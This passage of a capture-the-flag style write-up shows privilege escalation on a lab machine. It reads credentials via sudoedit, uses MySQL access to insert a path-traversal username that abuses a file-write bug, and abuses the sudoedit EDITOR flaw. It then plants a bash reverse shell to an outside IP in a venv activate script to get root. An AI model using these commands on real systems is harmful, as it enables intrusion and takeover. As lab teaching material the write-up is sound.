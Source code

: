 `sudoedit -u dev_admin /app/app-testing/tests/functional/creds.txt`

```
edwards:1d7ffjwrx#$d6qn!9nndqgde4
```

`sudoedit -u dev_admin /app/config_test.json`

```json
{
    "SQL_URI": "mysql+pymysql://superpasstester:VUO8A2c2#3FnLq3*a9DX1U@localhost/superpasstest"
}
```

`mysql superpasstest -u superpasstester -p`

**superpasstester:VUO8A2c2#3FnLq3*a9DX1U**

# Exploiting :5555

Now we can go back to the file write vulnerability.
Let's try adding a user (password: `test`):

`INSERT INTO users VALUES (3, '../../../dev/shm/test', '$6$rounds=200000$6301fmUwf0sQJ5oP$owepxqT7fnUz8a3uHlQnD99.uSEA/MvCgj7guT9qdLjqhSXIF0.mWJh9z3GTTtbWerCbV7zei1.4jyfil81Eq0');`

After logging in and clicking "Export" `/dev/shm/test_export_50bd687f55.csv` is created by `runner`!

# File write as dev_admin

https://www.exploit-db.com/exploits/51217

We can edit almost any file as dev_admin using:

`EDITOR="vim -- /home/dev_admin/.bashrc" sudoedit -u dev_admin /app/config_test.json`

# Escalation to root

`find / -group dev_admin 2>/dev/null`

```
/home/dev_admin
/app/venv
/app/venv/bin
/app/venv/bin/activate
/app/venv/bin/Activate.ps1
/app/venv/bin/activate.fish
/app/venv/bin/activate.csh
```

`EDITOR="vim -- /app/venv/bin/activate" sudoedit -u dev_admin /app/config_test.json`

Add to the top: `bash -c 'bash -i >& /dev/tcp/10.10.14.178/9001 0>&1'`

After a while we get a reverse shell as **root**.

`root.txt: <redacted>`
